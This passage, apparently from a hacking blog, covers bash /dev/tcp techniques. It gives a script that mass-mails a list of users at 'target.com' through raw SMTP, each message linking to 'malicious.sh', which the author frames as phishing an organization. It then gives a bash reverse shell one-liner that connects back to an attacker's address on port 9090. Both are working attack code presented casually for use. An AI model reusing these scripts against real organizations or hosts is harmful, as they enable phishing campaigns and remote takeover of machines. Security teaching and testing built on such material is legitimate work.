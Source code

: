 Hopefully you can see the scriptability of this. If I wanted to, say, mail bomb an entire organization if I had a list of potential users in hopes that one of them would read the email, click on a malicious link, I could script up something like this.

Let's say I had a list of users in a file named `users.txt`:

```txt
bob
mary
sue
joe
greg
laura
rich
```

I could use that list with this script:

```bash
#!/bin/bash

exec 3<>/dev/tcp/127.0.0.1/25
while read -r user;
do
    echo "EHLO agrohacksstuff.io" >&3
    sleep 0.2
    echo "MAIL FROM: me@example.com" >&3
    sleep 0.2
    echo "RCPT TO: $user@target.com" >&3
    sleep 0.2
    echo "DATA" >&3
    sleep 0.2
    echo "Please click <a href='http://10.20.30.40/malicious.sh'>here</a>" >&3
    sleep 0.2
    echo "." >&3
done < ./users.txt
```

Sweet! Now is that the best way to do this? Absolutely not. First of all, in my testing this was very spotty as sometimes the MTA I used (in this case, postfix) would trip up over certain lines and throw an error. I think it was because it just send a ton of data in a huge block without waiting on anything, hence all the sleep statements. A better way of doing it is using an actual mail client to send these, but a more fun way of doing it is using pexpect from python! But that's for another article.

# Reverse Shells

These have been done over and over again, so I won't offer much more here. But my favorite reverse shell is using bash:

```bash
/bin/bash -c '/bin/bash -i >& /dev/tcp/your.ip.here/9090 0>&1'
```

If you can get a remote host to run that, it should connect back to you on port 9090. I can do my best to explain it a bit though.
